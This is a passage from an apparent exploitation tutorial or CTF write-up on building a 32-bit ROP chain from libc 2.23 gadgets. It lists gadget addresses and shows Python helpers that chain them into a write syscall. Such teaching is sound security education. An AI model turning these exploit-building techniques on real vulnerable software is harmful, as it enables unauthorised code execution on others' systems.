 Now that we know where libc is located, we can run ROPgadget on it and look for useful gadgets.


`ROPgadget --binary /lib/i386-linux-gnu/libc-2.23.so > gadgets.txt`

We can now `grep` through `gadgets.txt` to find gadgets that we like. Here are the ones that I found:

| address | gadget |
----------|---------
| 0x00001aa6 | pop edx ; ret |
| 0x00018395 | pop ebx ; ret |
| 0x0002406e | pop eax ; ret |
| 0x000b5377 | pop ecx ; ret |
| 0x00002c87 | int 0x80 |

The reason that I chose these gadgets is because each one will set its register and return. This makes them really simple to chain together since you don't have to worry about side-effects. Now, we can add utility functions to our python file for each of our gadgets:

```python
def set_edx(value):
  # 0x00001aa6 : pop edx ; ret
  return libc_addr(0x00001aa6) + struct.pack('<I', value)

def set_ebx(value):
  # 0x00018395 : pop ebx ; ret
  return libc_addr(0x00018395) + struct.pack('<I', value)

def set_eax(value):
  # 0x0002406e : pop eax ; ret
  return libc_addr(0x0002406e) + struct.pack('<I', value)

def set_ecx(value):
  # 0x000b5377 : pop ecx ; ret
  return libc_addr(0x000b5377) + struct.pack('<I', value)

def syscall():
  # 0x00002c87 : int 0x80
  return libc_addr(0x00002c87)
```

Since we have made all of these handy helper functions, we can how generate our ropchain in a way that just looks like pseudocode:

```python
def generate_rop():
  rop = ''
  rop += set_edx(9)
  rop += set_ebx(1)
  rop += set_ecx(BUFFER_ADDRESS)
  rop += set_eax(4)
  rop += syscall()
  return rop
```
